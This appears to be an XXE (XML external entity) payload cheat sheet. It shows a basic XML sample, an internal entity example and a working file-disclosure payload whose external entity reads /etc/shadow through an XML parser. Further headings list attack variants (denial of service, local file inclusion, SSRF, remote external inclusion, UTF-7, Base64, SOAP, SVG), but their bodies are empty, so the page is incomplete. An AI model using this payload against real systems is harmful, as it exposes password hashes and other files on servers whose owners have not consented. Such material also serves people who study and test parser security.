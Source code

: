 #   Basic XML Example

    <!--?xml version="1.0" ?-->
    <userInfo>
     <firstName>John</firstName>
     <lastName>Doe</lastName>
    </userInfo>
    
***************************************

#   Entity Example

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
     <userInfo>
      <firstName>John</firstName>
      <lastName>&example;</lastName>
     </userInfo>


#   File Disclosure

        <!--?xml version="1.0" ?-->
        <!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/shadow"> ]>
        <userInfo>
         <firstName>John</firstName>
         <lastName>&ent;</lastName>
        </userInfo>



#   Denial-of-Service Example



#   Local File Inclusion Example


#   Blind Local File Inclusion Example (When first case doesn't return anything.)



#   Access Control Bypass (Loading Restricted Resources - PHP example)



#   SSRF ( Server Side Request Forgery ) Example


#   (Remote Attack - Through External Xml Inclusion) Exmaple


#   UTF-7 Exmaple



#   Base64 Encoded



#   XXE inside SOAP Example


#   XXE inside SVG

